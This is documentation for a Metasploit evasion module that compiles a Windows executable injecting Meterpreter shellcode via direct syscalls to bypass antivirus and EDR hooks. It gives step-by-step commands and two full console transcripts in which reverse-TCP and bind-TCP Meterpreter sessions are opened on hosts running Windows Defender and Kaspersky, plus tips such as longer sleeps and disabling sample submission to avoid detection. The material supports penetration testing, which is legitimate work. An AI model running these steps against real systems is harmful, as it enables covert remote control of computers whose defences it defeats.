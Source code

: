 ## Description
This module lets you create a Windows executable that injects a specific payload/shellcode in memory bypassing EDR/AVs Windows API hooking technique via direct syscalls achieved by Mingw's inline assembly.
Mingw needs (x86_64) to be installed on the system and in the PATH enviroment variable.

## Verification Steps
steps using a meterpreter/reverse_tcp payload on a 64-bits target:

1. `use evasion/windows/syscall_inject`
1. `set LHOST <local IP>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `handler -p windows/x64/meterpreter/reverse_tcp -H <local IP> -P <local port>`
1. `run`
1. Make sure that "Automatic Sample Submission" is off in Windows Defender
1. Copy the generated executable file to a specified location (e.g. target PC)  
1. Run it
1. Verify that you got a session without being blocked by Antimalware

## Options

### CIPHER
Encryption algorithm used to encrypt the payload. Available ones (XOR, RC4)

### FILENAME
Filename for the generated evasive file file. The default is random.

### JUNK
Adding random data such as names, emails and GUIDs to the final executable

### SLEEP
Specify how much (time x 2) the program sleeps prior to execute the shellcode's thread (NtCreateThread).
NOTE: the longer the better chance to avoid being detected.

## Advanced

### OptLevel
Optimization level passed to the compiler (Mingw)

## Scenarios
### Windows 10 (x64) version 20H2 with Defender
```
msf6 > use evasion/windows/syscall_inject 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/syscall_inject) > set SLEEP 10000
SLEEP => 10000
msf6 evasion(windows/syscall_inject) > set LHOST 192.168.1.104
LHOST => 192.168.1.104
msf6 evasion(windows/syscall_inject) > run

[+] pYlCSOAeW.exe stored at /Users/user/.msf4/local/pYlCSOAeW.exe
msf6 evasion(windows/syscall_inject) > cp  /Users/user/.msf4/local/pYlCSOAeW.exe ~
[*] exec: cp  /Users/user/.msf4/local/pYlCSOAeW.exe ~

msf6 evasion(windows/syscall_inject) > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.104 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 192.168.1.104:4444 
msf6 evasion(windows/syscall_inject) > [*] Sending stage (200262 bytes) to 192.168.1.103
[*] Meterpreter session 3 opened (192.168.1.104:4444 -> 192.168.1.103:53007) at 2021-08-01 17:08:43 +0300

msf6 evasion(windows/syscall_inject) > sessions -i 3 
[*] Starting interaction with 3...

meterpreter > sysinfo 
Computer        : DESKTOP-822593D
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.103 - Meterpreter session 3 closed.  Reason: User exit
```
### Windows server 2012 (x64) with Kaspersky 10.2.6.3733
```
msf6 > use evasion/windows/syscall_inject
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 evasion(windows/syscall_inject) > set payload windows/x64/meterpreter_bind_tcp 
payload => windows/x64/meterpreter_bind_tcp
msf6 evasion(windows/syscall_inject) > set RHOST 192.168.225.76
RHOST => 192.168.225.76
msf6 evasion(windows/syscall_inject) > set LPORT 10156
LPORT => 10156
msf6 evasion(windows/syscall_inject) > set cipher rc4
cipher => rc4
msf6 evasion(windows/syscall_inject) > run

[+] ShP.exe stored at /Users/medicus/.msf4/local/ShP.exe
msf6 evasion(windows/syscall_inject) > cp /Users/medicus/.msf4/local/ShP.exe ~
[*] exec: cp /Users/medicus/.msf4/local/ShP.exe ~

msf6 evasion(windows/syscall_inject) > handler -p windows/x64/meterpreter_bind_tcp -H 192.168.225.76 -P 10156
[*] Payload handler running as background job 0.

[*] Started bind TCP handler against 192.168.225.76:10156
msf6 evasion(windows/syscall_inject) > [*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.225.76:10156) at 2021-08-01 17:32:05 +0300

msf6 evasion(windows/syscall_inject) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : LABCE28
OS              : Windows 2012 (6.2 Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 386
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.225.76 - Meterpreter session 1 closed.  Reason: User exit
```